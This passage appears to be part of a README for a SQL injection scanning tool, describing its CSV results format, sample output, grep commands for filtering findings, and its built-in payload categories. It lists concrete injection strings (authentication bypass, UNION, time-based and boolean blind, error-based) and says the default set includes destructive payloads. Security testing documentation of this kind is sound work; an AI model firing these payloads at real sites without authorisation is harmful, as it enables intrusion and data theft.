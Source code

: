 ## 📊 Output Format

Results are saved in CSV format with these columns:

| Column | Description | Example |
|--------|-------------|---------|
| `url` | The tested URL | `https://example.com/search` |
| `parameter` | Parameter name tested | `q` |
| `payload` | SQL injection payload used | `' OR '1'='1` |
| `vulnerable` | Vulnerability found (True/False) | `True` |
| `detection_method` | How vulnerability was detected | `Error-based SQL injection detected` |
| `status_code` | HTTP response status | `500` |
| `response_time` | Response time in seconds | `0.342` |

### Sample Output

```csv
url,parameter,payload,vulnerable,detection_method,status_code,response_time
https://example.com/search,q,',True,Error-based SQL injection detected,500,0.34
https://example.com/login,user,' OR '1'='1,True,Content-based SQL injection detected,200,0.52
https://example.com/products,id,1,False,No SQL injection detected,200,0.28
https://example.com/news,search,' UNION SELECT NULL--,True,Error-based SQL injection detected,500,0.41
```

### Analyzing Results

```bash
# Count total vulnerabilities found
grep "True" results.csv | wc -l

# Find all vulnerable URLs
grep "True" results.csv | cut -d, -f1 | sort -u

# Find specific detection methods
grep "Error-based" results.csv
```

## 🎯 Payload Information

### Default Payload Categories (⚠️ Includes Destructive)

The built-in payload set includes **100+ payloads** across these categories:

#### Safe Detection Payloads
- **Basic quotes**: `'`, `"`
- **Authentication bypass**: `' OR '1'='1`, `" OR "1"="1`
- **Union injection**: `' UNION SELECT NULL--`
- **Time-based blind**: `' AND SLEEP(5)--`, `'; WAITFOR DELAY '00:00:05'--`
- **Boolean blind**: `' AND 1=1--`, `' AND 1=2--`
- **Error-based**: `' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION(),0x7e))--`
